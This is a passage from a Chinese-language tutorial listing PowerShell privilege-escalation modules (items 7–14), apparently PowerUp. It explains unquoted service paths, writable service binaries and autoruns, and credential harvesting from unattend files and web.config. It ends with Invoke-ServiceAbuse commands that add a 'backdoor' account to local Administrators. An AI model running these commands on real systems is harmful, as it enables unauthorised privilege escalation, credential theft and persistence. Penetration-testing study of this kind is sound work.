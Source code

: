 7.Get-ServiceFilePermission
该模块用于检查当前用户能够在哪些服务的目录写入相关联的可执行文件，我们可以通过这些文件实现提权

```powershell
Get-ServiceFilePermission
```

8.Test-ServiceDaclPermisssion
该模块用于检查所有可用的服务，并尝试对这些打开的服务进行修改，如果可以修改，则返回该服务对象

```powershell
Test-ServiceDaclPermission
```

9.Get-ServiceUnquoted
该模块用于检查服务路径，返回包含空格但是不带引号的服务路径
此处利用Windows的一个逻辑漏洞，即当文件包含空格时，Windows API会被解释为两个路径，并将这两个文件同时执行，有时可能会造成权限的提升，比如C:\program files\hello.exe会被解释为C:\program.exe和C:\program files\hello.exe

```powershell
Get-ServiceUnquoted
```

10.Get-UnattendedInstallFile
该模块用于检查以下路径，查询是否存在这些文件，因为这些文件里可能含有部署凭据，这些文件包含：Sysprep.xml、Sysprep.inf、Unattended.xml、Unattend.xml

```
Get-UnattendedInstallFile
```

11.Get-ModifiableRegistryAutoRun
该模块用于检查开机自启的应用程序路径和注册表键值，然后返回当前用户可修改的程序路径，被检查的注册表键值有以下这些：

```
Get-ModifiableRegistryAutoRun
```

12.Get-ModifiableScheduledTaskFile
该模块用于返回当前用户能够修改的计划任务程序的名称和路径

```
Get-ModifiableScheduledTaskFile
```

13.Get-Webconfig
该模块用于返回当前服务器上web.config文件中的数据库连接字符串的明文

```
get-webconfig
```

成功检查web.config中的数据库

14.Invoke-ServiceAbuse
该模块通过修改服务来添加用户到指定组，并可以通过设置-cmd参数触发添加用户的自定义命令

```powershell
#添加默认账号
Invoke-ServiceAbuse -ServiceName VulnSVC 
#指定添加的域账号
Invoke-ServiceAbuse -ServiceName VulnSVC -UserName “TESTLAB\john” 
#指定添加用户，用户密码以及添加的用户组
Invoke-ServiceAbuse -ServiceName VulnSVC -UserName backdoor -Password password -LocalGroup “Administrators” 
 #自定义执行命令
Invoke-ServiceAbuse -ServiceName VulnSVC -Command “net …”
```

